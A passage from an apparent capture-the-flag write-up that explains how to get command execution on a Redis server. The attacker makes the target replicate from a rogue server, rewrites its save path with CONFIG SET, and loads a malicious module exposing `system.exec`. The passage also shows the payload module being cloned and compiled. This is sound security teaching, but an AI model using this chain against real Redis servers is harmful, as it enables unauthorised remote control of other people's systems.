 Next is that redis allows for modules.  These are binaries that expose functionality via adding new commands to redis.  If we can
can call `LOAD MODULE /path/to/exploit.so` with a malicious module, we can do whatever we like.  We only need to get the module
file to somewhere accessible on the replica server.

Thirdly, it's possible to change the dbfilename and directory in the redis configuration at run time via `CONFIG SET dbfilename /path/to/exploit.so`, and `CONFIG SET DIR /tmp`. Then, when redis saves the current data to file, we can get arbitrary writes to file.  This can be 
initiated by a `PSYNC` command, and then transferring the payload to the replica.

Putting it together, we slave the target to our own server, configure the database filename and directory, replicate the payload as data via 
sync, and then our payload ends up as a file on the target system.  After that we load the module and use our new commands.

Thankfully there is existing code for this: https://github.com/LoRexxar/redis-rogue-server.  This script acts as a rogue redis
server and does most of the hard work for us.  We only need to provide it the connection to the target server and a payload.  The readme
for this repo mentions a redis module(https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) that adds a `system.exec` command.  It looks like we have all the ingredients, lets start putting it together.

### The Payload

All we really need to do here is clone the repo and run make, and although the compilation throws a few warnings, we have our payload, `module.so`.  We'll also need to copy it into the same directory as the rogue server, renaming it `exp.so`, or modify the rogue server accordingly.

```sh
╭─zoey@virtual-parrot ~/sec/csaw/webrtc ‹master*› 
╰─$ git clone https://github.com/n0b0dyCN/RedisModules-ExecuteCommand.git
Cloning into 'RedisModules-ExecuteCommand'...
remote: Enumerating objects: 494, done.
remote: Total 494 (delta 0), reused 0 (delta 0), pack-reused 494
Receiving objects: 100% (494/494), 207.79 KiB | 2.70 MiB/s, done.
Resolving deltas: 100% (284/284), done.
╭─zoey@virtual-parrot ~/sec/csaw/webrtc ‹master*› 
╰─$ cd RedisModules-ExecuteCommand 
╭─zoey@virtual-parrot ~/sec/csaw/webrtc/RedisModules-ExecuteCommand ‹master› 
╰─$ make
make -C ./src
make[1]: Entering directory '/home/zoey/sec/csaw/webrtc/RedisModules-ExecuteCommand/src'
make -C ../rmutil
make[2]: Entering directory '/home/zoey/sec/csaw/webrtc/RedisModules-ExecuteCommand/rmutil'
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o util.o util.c
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o strings.o strings.c
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o sds.o sds.c
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o vector.o vector.c
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o alloc.o alloc.c
gcc -g -fPIC -O3 -std=gnu99 -Wall -Wno-unused-function -I../   -c -o periodic.o periodic.c
ar rcs librmutil.a util.o strings.o sds.o vector.o alloc.o periodic.o
make[2]: Leaving directory '/home/zoey/sec/csaw/webrtc/RedisModules-ExecuteCommand/rmutil'
gcc -I../ -Wall -g -fPIC -lc -lm -std=gnu99     -c -o module.o module.c
module.c: In function ‘DoCommand’:
module.c:16:29: warning: initialization discards ‘const’ qualifier from pointer target type [-Wdiscarded-qualifiers]
   16 |                 char *cmd = RedisModule_StringPtrLen(argv[1], &cmd_len);
      |                             ^~~~~~~~~~~~~~~~~~~~~~~~
module.c:23:29: warning: implicit declaration of function ‘strlen’ [-Wimplicit-function-declaration]
   23 |                         if (strlen(buf) + strlen(output) >= size) {
      |                             ^~~~~~
module.c:23:29: warning: incompatible implicit declaration of built-in function ‘strlen’
module.c:11:1: note: include ‘<string.h>’ or provide a declaration of ‘strlen’
```